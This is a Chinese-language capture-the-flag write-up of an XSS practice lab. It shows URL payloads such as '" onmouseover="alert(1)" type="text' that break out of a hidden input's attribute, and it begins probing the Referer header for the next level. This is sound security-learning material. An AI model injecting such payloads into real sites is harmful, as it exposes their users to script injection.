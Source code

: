 因为这里有过滤<>所以感觉用事件绕过会更方便一些

onmouseover 事件属性

当鼠标指针移动到图像上时执行一段 JavaScript：

```
例如
<img onmouseover="bigImg(this)" src="smiley.gif" alt="Smiley">
```

注释：onmouseover  属性不适用以下元素：<base>、<bdo>、<br>、<head>、<html>、<iframe>、<meta>、<param>、<script>、<style> 或 <title>。

accesskey 属性

带有指定快捷键的超链接：

```
例如
<a href="http://www.w3school.com.cn/html/" accesskey="h">HTML</a><br />
<a href="http://www.w3school.com.cn/css/" accesskey="c">CSS</a>
```

注释：以下元素支持 accesskey 属性：<a>, <area>, <button>, <input>, <label>, <legend> 以及 <textarea>。

<input name="t_sort"  value="'.$str33.'" type="hidden">

input是隐藏的要想办法让它传进去

emm直接在url上传应该可以吧

&t_sort=123456" onclick="alert(1)

emmm这样还不可以,还得构造一个文本框

&t_sort=123456" onclick="alert(1)" type="text

type="text"为构造一个文本框，用来触发onclick事件

&t_sort=123456" onmouseover="alert(1)" type="text

这个将鼠标移到文本框上就可以触发了

### 第十一关

<input name="t_ref" value="http://e431d9b5-6a95-4fc7-a162-e2c024ee49e7.node3.buuoj.cn/level10.php?t_sort=123456%22%20onmouseover=%22alert(1)%22%20type=%22text" type="hidden">

这个地方感觉是可以用事件注入的

奇怪感觉这个url有点眼熟

这是上一题的内容啊

抓包

抓到Referer: http://c9fe2020-de9b-468d-8502-b9f3745b6fb2.node3.buuoj.cn/level11.php?keyword=good%2520job!

headers里面

<input name="t_ref"  value="http://c9fe2020-de9b-468d-8502-b9f3745b6fb2.node3.buuoj.cn/level11.php?keyword=good%2520job!" type="hidden">
